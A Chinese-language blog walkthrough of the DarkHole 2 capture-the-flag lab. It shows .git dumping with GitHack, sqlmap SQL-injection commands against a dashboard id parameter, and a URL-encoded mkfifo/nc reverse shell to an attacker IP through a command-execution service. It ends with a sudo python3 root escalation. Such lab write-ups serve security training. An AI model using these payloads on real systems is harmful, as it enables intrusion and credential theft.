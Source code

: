 ```yaml
---
layout: post
title: DarkHole 2
subtitle: DarkHole 2
date: 2025-07-15 15:02
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```


ip扫描发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/gfbKzP.png)

扫描端口

![image.png](https://img.ghostliner.top/92tYeS.png)

目录扫描，发现 `.git` 目录，使用 `GitHack` 下载目录

```shell
# 下载GitHack
git clone https://github.com/BugScanTeam/GitHack.git
cd GitHack
# 执行
python2 GitHack.py http://192.168.163.134/.git/
```

进入到 `.git` 目录查看日志

```shell
git log
```

发现有三个版本，第二版本在`login.php`添加了默认凭证

![image.png](https://img.ghostliner.top/3Kf9f3.png)

回退版本

```shell
git reset --hard HEAD^
# or
git reset --hard a4d900a8d85e8938d3601f3cef113ee293028e10
```

查看 `login.php` 发现用户名：`lush@admin.com` 密码：`321`

![image.png](https://img.ghostliner.top/jPyGeI.png)

使用用户名密码登录成功，登陆后地址： <http://192.168.163.134/dashboard.php?id=1>

查看 `dashboard.php` , 其中 `\155`为8进制，`\x6f`为16进制

![image.png](https://img.ghostliner.top/rJ7Gcp.png)

解码 query，测试mobile参数未发现注入

```sql
update users set username='{$fname}',email='{$email}',address='{$address}',contact_number='{$mobile}' where id=1
```

测试 `id`参数是否存在注入

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" --dbs --batch
```

获取数据库
![image.png](https://img.ghostliner.top/LCfuCU.png)

获取表

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --tables
```

![image.png](https://img.ghostliner.top/LoHkow.png)

获取列

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --columns
```

![image.png](https://img.ghostliner.top/Mu8cJ4.png)

获取ssh表中数据

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 -T ssh --dump
```

![image.png](https://img.ghostliner.top/ij6uhn.png)

用户名：`jehad` 密码：`fool`

ssh登录成功，查看home目录

![image.png](https://img.ghostliner.top/9AbmUV.png)

发现flag文件

![image.png](https://img.ghostliner.top/6eDntV.png)

获取到数据库用户名密码

![image.png](https://img.ghostliner.top/QtpOyP.png)

`sudo -l` 提权失败
![image.png](https://img.ghostliner.top/pbtTKM.png)

```shell
cat /etc/crontab
```

发现losy定时任务：在本地开放9999端口作为站点

![image.png](https://img.ghostliner.top/ZKmacp.png)

查看 `/opt/web` 目录下文件，可知需要构造get请求，参数为 `cmd`

![image.png](https://img.ghostliner.top/kXEBsn.png)

测试参数

![image.png](https://img.ghostliner.top/tX4umD.png)

尝试反弹shell

<mark>使用nc -e或nc -c都会报错</mark>

```shell
# mkfifo /tmp/f
curl http://127.0.0.1:9999?cmd=mkfifo%20%2Ftmp%2Ff
# echo "cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f" >/tmp/tt
curl http://127.0.0.1:9999?cmd=echo%20%22cat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20-nv%20192.168.163.132%204444%20%3E%2Ftmp%2Ff%22%20%3E%2Ftmp%2Ftt
# chmod +x /tmp/tt
curl http://127.0.0.1:9999?cmd=chmod%20%2Bx%20%2Ftmp%2Ftt
# /bin/bash /tmp/tt
curl http://127.0.0.1:9999?cmd=%2Fbin%2Fbash%20%2Ftmp%2Ftt
```

反弹成功切换为用户 `losy`

![image.png](https://img.ghostliner.top/bfO3pi.png)

查看 `.bash_history` 获取到losy用户密码：`gang`

![image.png](https://img.ghostliner.top/3VDxKW.png)

SSH登录，`sudo -l` 查看是否能提权

![image.png](https://img.ghostliner.top/p1rd3x.png)

使用python3提权

```shell
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```

root提权成功

![image.png](https://img.ghostliner.top/8Dr4PW.png)

获取到最终flag文件
![image.png](https://img.ghostliner.top/ILL2cW.png)
